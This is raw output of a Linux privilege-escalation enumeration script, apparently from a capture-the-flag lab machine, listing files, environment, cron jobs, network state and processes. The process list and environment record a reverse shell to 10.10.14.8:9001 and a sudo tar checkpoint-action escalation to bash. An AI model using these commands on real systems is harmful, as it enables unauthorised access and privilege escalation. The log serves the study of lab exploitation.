-rw-r--r-- 1 root root 3263 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/genksyms/.lex.lex.o.cmd
-rw-r--r-- 1 root root 4148 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/basic/.fixdep.cmd
-rw-r--r-- 1 root root 1169 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/basic/.bin2c.cmd
-rw-r--r-- 1 root root 3167 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.asn1_compiler.cmd
-rw-r--r-- 1 root root 193941 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/.config.old
-rw-r--r-- 1 root root 193817 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/.config
-rw-r--r-- 1 root root 770 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/.missing-syscalls.d
-rw-r--r-- 1 root root 3282 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/tools/.relocs_32.o.cmd
-rw-r--r-- 1 root root 3262 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/tools/.relocs_common.o.cmd
-rw-r--r-- 1 root root 3282 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/tools/.relocs_64.o.cmd
-rw-r--r-- 1 root root 146 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/tools/.relocs.cmd
-rw-r--r-- 1 root root 402 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/asm/.xen-hypercalls.h.cmd
-rw-r--r-- 1 root root 292 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/asm/.syscalls_32.h.cmd
-rw-r--r-- 1 root root 320 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/uapi/asm/.unistd_64.h.cmd
-rw-r--r-- 1 root root 340 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/uapi/asm/.unistd_x32.h.cmd
-rw-r--r-- 1 root root 315 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/include/generated/uapi/asm/.unistd_32.h.cmd
-rw-r--r-- 1 root root 53783 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/arch/x86/kernel/.asm-offsets.s.cmd
-rw-r--r-- 1 root root 12444 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/kernel/.bounds.s.cmd
-rw-r--r-- 1 root root 11 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/selinux/genheaders/.gitignore
-rw-r--r-- 1 root root 21 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/selinux/mdp/.gitignore
-rw-r--r-- 1 root root 31 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/kconfig/lxdialog/.gitignore
-rw-r--r-- 1 root root 167 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/kconfig/.gitignore
-rw-r--r-- 1 root root 12 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/gdb/linux/.gitignore
-rw-r--r-- 1 root root 54 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/dtc/.gitignore
-rw-r--r-- 1 root root 154 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/.gitignore
-rw-r--r-- 1 root root 55 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/mod/.gitignore
-rw-r--r-- 1 root root 42 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/genksyms/.gitignore
-rw-r--r-- 1 root root 13 Jan 10  2016 /usr/src/linux-headers-4.4.0-122/scripts/basic/.gitignore
-rw-r--r-- 1 root root 11 Nov 15  2017 /usr/src/linux-headers-4.15.0-041500/scripts/selinux/genheaders/.gitignore
-rw-r--r-- 1 root root 21 Nov 15  2017 /usr/src/linux-headers-4.15.0-041500/scripts/selinux/mdp/.gitignore
-rw-r--r-- 1 root root 31 Nov 15  2017 /usr/src/linux-headers-4.15.0-041500/scripts/kconfig/lxdialog/.gitignore
-rw-r--r-- 1 root root 154 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/kconfig/.gitignore
-rw-r--r-- 1 root root 25 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/gdb/linux/.gitignore
-rw-r--r-- 1 root root 54 Jan 29  2018 /usr/src/linux-headers-4.15.0-041500/scripts/dtc/.gitignore
-rw-r--r-- 1 root root 162 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/.gitignore
-rw-r--r-- 1 root root 24 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/gcc-plugins/.gitignore
-rw-r--r-- 1 root root 55 Jan 29  2018 /usr/src/linux-headers-4.15.0-041500/scripts/mod/.gitignore
-rw-r--r-- 1 root root 33 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500/scripts/genksyms/.gitignore
-rw-r--r-- 1 root root 13 Jan 29  2018 /usr/src/linux-headers-4.15.0-041500/scripts/basic/.gitignore
-rw-r--r-- 1 root root 6432 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.sign-file.cmd
-rw-r--r-- 1 root root 5787 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/selinux/genheaders/.genheaders.cmd
-rw-r--r-- 1 root root 5322 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/selinux/mdp/.mdp.cmd
-rw-r--r-- 1 root root 4626 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.sortextable.cmd
-rw-r--r-- 1 root root 5069 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.insert-sys-cert.cmd
-rw-r--r-- 1 root root 4473 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.recordmcount.cmd
-rw-r--r-- 1 root root 5414 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/kconfig/.conf.o.cmd
-rw-r--r-- 1 root root 6206 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/kconfig/.zconf.tab.o.cmd
-rw-r--r-- 1 root root 110 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/kconfig/.conf.cmd
-rw-r--r-- 1 root root 3581 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.kallsyms.cmd
-rw-r--r-- 1 root root 5678 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.extract-cert.cmd
-rw-r--r-- 1 root root 5525 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.devicetable-offsets.s.cmd
-rw-r--r-- 1 root root 3517 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.mk_elfconfig.cmd
-rw-r--r-- 1 root root 104 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.elfconfig.h.cmd
-rw-r--r-- 1 root root 5806 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.modpost.o.cmd
-rw-r--r-- 1 root root 2223 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.empty.o.cmd
-rw-r--r-- 1 root root 4498 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.file2alias.o.cmd
-rw-r--r-- 1 root root 129 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.modpost.cmd
-rw-r--r-- 1 root root 5476 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.sumversion.o.cmd
-rw-r--r-- 1 root root 3315 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.conmakehash.cmd
-rw-r--r-- 1 root root 5150 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/basic/.fixdep.cmd
-rw-r--r-- 1 root root 1436 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/basic/.bin2c.cmd
-rw-r--r-- 1 root root 4254 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.asn1_compiler.cmd
-rw-r--r-- 1 root root 216690 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/.config.old
-rw-r--r-- 1 root root 56406 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/.cache.mk
-rw-r--r-- 1 root root 216566 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/.config
-rw-r--r-- 1 root root 680 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/.missing-syscalls.d
-rw-r--r-- 1 root root 4370 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/tools/.relocs_32.o.cmd
-rw-r--r-- 1 root root 4359 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/tools/.relocs_common.o.cmd
-rw-r--r-- 1 root root 4370 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/tools/.relocs_64.o.cmd
-rw-r--r-- 1 root root 146 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/tools/.relocs.cmd
-rw-r--r-- 1 root root 324 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/asm/.xen-hypercalls.h.cmd
-rw-r--r-- 1 root root 232 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/asm/.syscalls_32.h.cmd
-rw-r--r-- 1 root root 260 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/uapi/asm/.unistd_64.h.cmd
-rw-r--r-- 1 root root 280 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/uapi/asm/.unistd_x32.h.cmd
-rw-r--r-- 1 root root 255 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/uapi/asm/.unistd_32.h.cmd
-rw-r--r-- 1 root root 53872 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/kernel/.asm-offsets.s.cmd
-rw-r--r-- 1 root root 12620 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/kernel/.bounds.s.cmd


[-] Home directory contents:
total 40K
drwxrw---- 5 onuma onuma 4.0K Feb 21  2018 .
drwxr-xr-x 3 root  root  4.0K Feb  9  2018 ..
lrwxrwxrwx 1 root  root     9 Feb 17  2018 .bash_history -> /dev/null
-rwxrw---- 1 onuma onuma  220 Feb  9  2018 .bash_logout
-rwxrw---- 1 onuma onuma 3.8K Feb 15  2018 .bashrc
drwxrw---- 2 onuma onuma 4.0K Feb  9  2018 .cache
-rwxrw---- 1 onuma onuma   52 Feb 17  2018 .mysql_history
drwxrw---- 2 onuma onuma 4.0K Feb 17  2018 .nano
-rwxrw---- 1 onuma onuma  655 Feb  9  2018 .profile
drwxrw---- 2 onuma onuma 4.0K Feb 15  2018 .ssh
-rwxrw---- 1 onuma onuma    0 Feb  9  2018 .sudo_as_admin_successful
lrwxrwxrwx 1 root  root     9 Feb 17  2018 shadow_bkp -> /dev/null
-r-------- 1 onuma onuma   33 Feb  9  2018 user.txt


[-] SSH keys/host information found in the following locations:
-rwxrw---- 1 onuma onuma 222 Feb 15  2018 /home/onuma/.ssh/known_hosts


[-] Root is allowed to login via SSH:
PermitRootLogin yes


### ENVIRONMENTAL #######################################
[-] Environment information:
TAR_SUBCOMMAND=-c
TAR_FORMAT=gnu
SHELL=/bin/bash
TERM=unknown
USER=onuma
TAR_BLOCKING_FACTOR=20
SUDO_USER=www-data
SUDO_UID=33
USERNAME=onuma
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
MAIL=/var/mail/onuma
PWD=/home/onuma
LANG=C
TAR_ARCHIVE=/dev/null
TAR_CHECKPOINT=1
HOME=/home/onuma
SUDO_COMMAND=/bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
SHLVL=2
LOGNAME=onuma
TAR_VERSION=1.28
LESSOPEN=| /usr/bin/lesspipe %s
SUDO_GID=33
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env


[-] Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


[-] Current umask value:
0022
u=rwx,g=rx,o=rx


[-] umask value as specified in /etc/login.defs:
UMASK		022


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x  2 root root 4096 Feb 15  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  670 Mar  1  2016 php
-rw-r--r--  1 root root  190 Feb  9  2018 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 May  1  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root  539 Apr  5  2016 apache2
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1474 Jun 19  2017 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 26  2015 dpkg
-rwxr-xr-x  1 root root  372 May  6  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 12  2015 passwd
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  214 May 24  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Feb  9  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Feb  9  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 May  1  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  211 May 24  2016 update-notifier-common


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


[-] Systemd timers:
NEXT                         LEFT     LAST                         PASSED    UNIT                         ACTIVATES
Mon 2018-11-05 18:54:52 EST  24s ago  Mon 2018-11-05 18:54:52 EST  23s ago   backuperer.timer             backuperer.service
Tue 2018-11-06 02:18:45 EST  7h left  Mon 2018-11-05 02:18:45 EST  16h ago   systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Tue 2018-11-06 06:53:56 EST  11h left Mon 2018-11-05 06:29:37 EST  12h ago   apt-daily-upgrade.timer      apt-daily-upgrade.service
Tue 2018-11-06 12:09:16 EST  17h left Mon 2018-11-05 18:02:07 EST  53min ago apt-daily.timer              apt-daily.service
n/a                          n/a      n/a                          n/a       snapd.refresh.timer
n/a                          n/a      n/a                          n/a       snapd.snap-repair.timer      snapd.snap-repair.service
n/a                          n/a      n/a                          n/a       ureadahead-stop.timer        ureadahead-stop.service

7 timers listed.


### NETWORKING  ##########################################
[-] Network and IP info:
ens33     Link encap:Ethernet  HWaddr 00:50:56:b4:bf:a1
          inet addr:10.10.10.88  Bcast:10.10.10.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1672384 errors:91 dropped:338 overruns:0 frame:0
          TX packets:1081626 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:157616309 (157.6 MB)  TX bytes:225017435 (225.0 MB)
          Interrupt:19 Base address:0x2000

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:4698 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4698 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:370288 (370.2 KB)  TX bytes:370288 (370.2 KB)


[-] ARP history:
? (10.10.10.2) at 00:50:56:b4:f5:b5 [ether] on ens33


[-] Nameserver(s):
nameserver 10.10.10.2


[-] Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens33


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0    116 10.10.10.88:49186       10.10.14.8:9001         ESTABLISHED -
tcp        1      0 10.10.10.88:80          10.10.14.8:59800        CLOSE_WAIT  -


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 10.10.10.88:40873       10.10.10.2:53           ESTABLISHED -


### SERVICES #############################################
[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.2   6496  4892 ?        Ss   02:03   0:03 /sbin/init
root         2  0.0  0.0      0     0 ?        S    02:03   0:00 [kthreadd]
root         4  0.0  0.0      0     0 ?        I<   02:03   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        I<   02:03   0:00 [mm_percpu_wq]
root         7  0.0  0.0      0     0 ?        S    02:03   0:14 [ksoftirqd/0]
root         8  0.0  0.0      0     0 ?        I    02:03   0:10 [rcu_sched]
root         9  0.0  0.0      0     0 ?        I    02:03   0:00 [rcu_bh]
root        10  0.0  0.0      0     0 ?        S    02:03   0:00 [migration/0]
root        11  0.0  0.0      0     0 ?        S    02:03   0:00 [watchdog/0]
root        12  0.0  0.0      0     0 ?        S    02:03   0:00 [cpuhp/0]
root        13  0.0  0.0      0     0 ?        S    02:03   0:00 [kdevtmpfs]
root        14  0.0  0.0      0     0 ?        I<   02:03   0:00 [netns]
root        15  0.0  0.0      0     0 ?        S    02:03   0:00 [rcu_tasks_kthre]
root        16  0.0  0.0      0     0 ?        S    02:03   0:00 [kauditd]
root        17  0.0  0.0      0     0 ?        S    02:03   0:00 [khungtaskd]
root        18  0.0  0.0      0     0 ?        S    02:03   0:00 [oom_reaper]
root        19  0.0  0.0      0     0 ?        I<   02:03   0:00 [writeback]
root        20  0.0  0.0      0     0 ?        S    02:03   0:00 [kcompactd0]
root        21  0.0  0.0      0     0 ?        SN   02:03   0:00 [ksmd]
root        22  0.0  0.0      0     0 ?        SN   02:03   0:00 [khugepaged]
root        23  0.0  0.0      0     0 ?        I<   02:03   0:00 [crypto]
root        24  0.0  0.0      0     0 ?        I<   02:03   0:00 [kintegrityd]
root        25  0.0  0.0      0     0 ?        I<   02:03   0:00 [kblockd]
root        26  0.0  0.0      0     0 ?        I<   02:03   0:00 [ata_sff]
root        27  0.0  0.0      0     0 ?        I<   02:03   0:00 [md]
root        28  0.0  0.0      0     0 ?        I<   02:03   0:00 [edac-poller]
root        29  0.0  0.0      0     0 ?        I<   02:03   0:00 [devfreq_wq]
root        30  0.0  0.0      0     0 ?        I<   02:03   0:00 [watchdogd]
root        34  0.0  0.0      0     0 ?        S    02:03   0:00 [kswapd0]
root        35  0.0  0.0      0     0 ?        S    02:03   0:00 [ecryptfs-kthrea]
root        77  0.0  0.0      0     0 ?        I<   02:03   0:00 [kthrotld]
root        78  0.0  0.0      0     0 ?        I<   02:03   0:00 [acpi_thermal_pm]
root        79  0.0  0.0      0     0 ?        I<   02:03   0:00 [nvme-wq]
root        80  0.0  0.0      0     0 ?        S    02:03   0:00 [scsi_eh_0]
root        81  0.0  0.0      0     0 ?        I<   02:03   0:00 [scsi_tmf_0]
root        82  0.0  0.0      0     0 ?        S    02:03   0:00 [scsi_eh_1]
root        83  0.0  0.0      0     0 ?        I<   02:03   0:00 [scsi_tmf_1]
root        85  0.0  0.0      0     0 ?        I<   02:03   0:00 [ipv6_addrconf]
root        95  0.0  0.0      0     0 ?        I<   02:03   0:00 [kstrp]
root       112  0.0  0.0      0     0 ?        I<   02:03   0:00 [charger_manager]
root       170  0.0  0.0      0     0 ?        S    02:03   0:00 [scsi_eh_2]
root       172  0.0  0.0      0     0 ?        I<   02:03   0:00 [scsi_tmf_2]
root       173  0.0  0.0      0     0 ?        I<   02:03   0:00 [vmw_pvscsi_wq_2]
root       174  0.0  0.0      0     0 ?        I<   02:03   0:00 [kworker/0:1H]
root       194  0.0  0.0      0     0 ?        I<   02:03   0:00 [ttm_swap]
root       196  0.0  0.0      0     0 ?        S    02:03   0:00 [irq/16-vmwgfx]
root       273  0.0  0.0      0     0 ?        I<   02:03   0:00 [raid5wq]
root       297  0.0  0.0      0     0 ?        I<   02:03   0:00 [kdmflush]
root       298  0.0  0.0      0     0 ?        I<   02:03   0:00 [bioset]
root       307  0.0  0.0      0     0 ?        I<   02:03   0:00 [kdmflush]
root       308  0.0  0.0      0     0 ?        I<   02:03   0:00 [bioset]
root       348  0.0  0.0      0     0 ?        S    02:03   0:00 [jbd2/dm-0-8]
root       349  0.0  0.0      0     0 ?        I<   02:03   0:00 [ext4-rsv-conver]
root       401  0.1  0.2   7044  4336 ?        Ss   02:03   1:35 /lib/systemd/systemd-journald
root       403  0.0  0.0  21480  1396 ?        Ss   02:03   0:00 /sbin/lvmetad -f
root       418  0.0  0.0      0     0 ?        I<   02:03   0:00 [iscsi_eh]
root       420  0.0  0.1  13952  3416 ?        Ss   02:03   0:02 /lib/systemd/systemd-udevd
root       437  0.0  0.0      0     0 ?        I<   02:03   0:00 [ib-comp-wq]
root       438  0.0  0.0      0     0 ?        I<   02:03   0:00 [ib_mcast]
root       439  0.0  0.0      0     0 ?        I<   02:03   0:00 [ib_nl_sa_wq]
root       460  0.0  0.0      0     0 ?        I<   02:03   0:00 [rdma_cm]
root       656  0.0  0.0      0     0 ?        I<   02:03   0:00 [ext4-rsv-conver]
systemd+   689  0.0  0.1  12600  2376 ?        Ssl  02:03   0:03 /lib/systemd/systemd-timesyncd
root       798  0.0  0.4  51780  8584 ?        Ssl  02:03   0:38 /usr/bin/vmtoolsd
root       802  0.0  0.1 105828  2904 ?        Ssl  02:03   0:17 /usr/bin/lxcfs /var/lib/lxcfs/
root       807  0.0  0.5 854564 12096 ?        Ssl  02:03   0:01 /usr/lib/snapd/snapd
message+   808  0.0  0.1   6052  3788 ?        Ss   02:03   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root       829  0.0  0.0   3800  1128 ?        Ss   02:03   0:00 /lib/systemd/systemd-logind
root       858  0.0  0.0   2248  1116 ?        Ss   02:03   0:00 /usr/sbin/acpid
root       859  0.0  0.2  37672  6000 ?        Ssl  02:03   0:01 /usr/lib/accountsservice/accounts-daemon
syslog     860  0.0  0.1  30732  3612 ?        Ssl  02:03   0:39 /usr/sbin/rsyslogd -n
root       861  0.0  0.1   5584  2672 ?        Ss   02:03   0:00 /usr/sbin/cron -f
daemon     862  0.0  0.1   3484  2124 ?        Ss   02:03   0:00 /usr/sbin/atd -f
root       933  0.0  0.0   3136   124 ?        Ss   02:03   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root       965  0.0  0.2  35768  5716 ?        Ssl  02:03   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1135  0.0  0.0   2988   112 ?        Ss   02:03   0:00 /sbin/iscsid
root      1136  0.0  0.1   3448  2900 ?        S<Ls 02:03   0:05 /sbin/iscsid
mysql     1140  0.0  6.4 544844 132556 ?       Ssl  02:03   0:17 /usr/sbin/mysqld
root      1196  0.0  0.0   4752  1868 tty1     Ss+  02:03   0:00 /sbin/agetty --noclear tty1 linux
root      1267  0.0  1.2 120164 25380 ?        Ss   02:03   0:02 /usr/sbin/apache2 -k start
root      6086  0.0  0.0      0     0 ?        I    18:10   0:00 [kworker/0:1]
www-data  6604  0.0  0.0   2372   656 ?        S    18:32   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  6608  0.0  0.0   2372   580 ?        S    18:32   0:00 /bin/sh -i
www-data  6609  0.0  0.2   8196  5412 ?        S    18:33   0:00 python -c import pty; pty.spawn("/bin/bash")
www-data  6610  0.0  0.1   3760  2912 pts/0    Ss   18:33   0:00 /bin/bash
root      6740  0.0  0.0      0     0 ?        I    18:37   0:00 [kworker/u2:0]
root      7864  0.0  0.1   4924  3392 pts/0    S    18:48   0:00 sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
onuma     7865  0.0  0.1   3704  2568 pts/0    S    18:48   0:00 tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
onuma     7866  0.0  0.1   4760  4000 pts/0    S    18:48   0:00 /bin/bash
root      7886  0.0  0.0      0     0 ?        I    18:49   0:00 [kworker/u2:2]
root      7998  0.0  0.0      0     0 ?        I    18:50   0:00 [kworker/0:2]
onuma     8118  0.1  0.1   4168  3128 pts/0    S+   18:55   0:00 bash
onuma     8119  0.0  0.1   4264  3176 pts/0    S+   18:55   0:00 bash
onuma     8120  0.0  0.0   2232   584 pts/0    S+   18:55   0:00 tee -a
root      8193  0.0  0.0      0     0 ?        I    18:55   0:00 [kworker/u2:1]
onuma     8556  0.0  0.1   4264  2532 pts/0    S+   18:55   0:00 bash
onuma     8557  0.0  0.1   5680  2728 pts/0    R+   18:55   0:00 ps aux
www-data 19505  0.0  0.3 120236  7136 ?        S    06:28   0:00 /usr/sbin/apache2 -k start
www-data 19615  0.0  0.5 120432 12304 ?        S    06:29   0:00 /usr/sbin/apache2 -k start
www-data 19616  0.0  0.3 120236  7136 ?        S    06:29   0:00 /usr/sbin/apache2 -k start
www-data 21971  0.0  0.5 120440 12016 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 21973  0.0  0.5 120432 12104 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 21982  0.0  0.5 120432 12168 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 21986  0.0  0.5 120432 12200 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 21994  0.0  0.5 120432 12168 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 22005  0.0  0.5 120432 12168 ?        S    07:57   0:00 /usr/sbin/apache2 -k start
www-data 22024  0.0  0.5 120432 12168 ?        S    07:57   0:00 /usr/sbin/apache2 -k start


[-] Process binaries and associated permissions (from above list):
-rwxr-xr-x 1 root root  1109564 May 16  2017 /bin/bash
lrwxrwxrwx 1 root root        4 Feb  9  2018 /bin/sh -> dash
-rwxr-xr-x 1 root root   349960 Mar  8  2018 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   641532 Mar  8  2018 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   149252 Mar  8  2018 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   452404 Mar  8  2018 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    38828 Nov 30  2017 /sbin/agetty
lrwxrwxrwx 1 root root       20 Mar  8  2018 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root   727796 Jul 26  2017 /sbin/iscsid
-rwxr-xr-x 1 root root    54708 Apr 16  2016 /sbin/lvmetad
-rwxr-xr-x 1 root root   598044 Nov  8  2017 /sbin/mdadm
-rwxr-xr-x 1 root root   259940 Jan 12  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root    17820 Nov  8  2017 /usr/bin/lxcfs
-rwxr-xr-x 1 root root    43188 Feb 15  2018 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   170936 Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root     9992 Jan 17  2016 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root 12287396 Apr 11  2018 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root    51068 Apr  8  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root   647152 Apr 18  2018 /usr/sbin/apache2
-rwxr-xr-x 1 root root    21880 Jan 14  2016 /usr/sbin/atd
-rwxr-xr-x 1 root root    43128 Apr  5  2016 /usr/sbin/cron
